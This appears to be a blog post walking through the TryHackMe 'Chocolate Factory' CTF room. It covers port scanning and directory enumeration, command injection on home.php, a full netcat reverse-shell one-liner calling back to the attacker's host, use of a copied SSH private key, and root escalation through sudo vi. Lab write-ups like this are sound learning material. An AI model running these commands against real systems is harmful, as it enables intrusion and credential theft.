 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

## Enumeration
 
     sudo nmap -sV -sC -v <ip>
     <br />
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
the result like look,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listerning  our system 
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   then list out file and read key
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   login with ssh charlie user
    
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
  read the user key <br />
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) 
   
 ## Privilege Escalation
 <br />
  check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   get root permission using vi <br />
   use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal and hit enter <br />
   Now root user <br >
   change charlie to root <br />
   
    su root
   
   
   list the files and run python file ,enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  

